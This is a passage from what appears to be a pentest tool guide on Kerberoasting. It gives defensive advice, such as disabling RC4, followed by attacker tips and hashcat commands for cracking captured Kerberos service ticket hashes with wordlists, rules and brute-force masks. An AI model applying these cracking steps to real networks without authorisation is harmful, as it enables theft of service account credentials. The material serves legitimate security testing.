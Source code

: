 **Medium Priority:**
5. **Monitor Kerberos Logs** - Alert on unusual TGS/AS-REP patterns
6. **Limit Service Account SPNs** - Reduce attack surface
7. **Rotate Service Passwords** - Regular password changes
8. **Enable Audit Logging** - Comprehensive Kerberos auditing

**Disable RC4-HMAC:**
```powershell
# Group Policy: Computer Configuration > Policies > Windows Settings > 
# Security Settings > Local Policies > Security Options
# Network security: Configure encryption types allowed for Kerberos
# Uncheck: RC4_HMAC_MD5
```

---

## 📝 Tips & Best Practices

### Maximizing Success
1. **Use Valid Credentials** - Low-priv domain user sufficient for Kerberoasting
2. **Target Service Accounts** - Look for svc_, service_, sql_, etc.
3. **Check Encryption Type** - RC4 much easier to crack than AES
4. **Custom Wordlists** - Company name, year, seasons (Summer2024!)
5. **Rules-Based Cracking** - Use Hashcat rules for variations

### Common Pitfalls
❌ **Not checking account status** - Disabled accounts won't work  
❌ **Wrong domain name** - Use FQDN (CORP.LOCAL not CORP)  
❌ **Missing Impacket** - Install GetUserSPNs.py and GetNPUsers.py  
❌ **Weak wordlists** - Service accounts often have strong passwords  
❌ **Giving up too early** - Try multiple wordlists and rules  

### Cracking Tips
```bash
# Quick test with common passwords
hashcat -m 13100 tgs_hashes.txt top1000.txt

# Full rockyou with rules
hashcat -m 13100 tgs_hashes.txt rockyou.txt -r best64.rule

# Company-specific wordlist
cewl https://company.com -d 2 -m 8 -w company.txt
hashcat -m 13100 tgs_hashes.txt company.txt -r best64.rule

# Brute force (8-10 chars)
hashcat -m 13100 tgs_hashes.txt -a 3 ?u?l?l?l?l?d?d?d?s
```

---

## 🚨 Common Findings
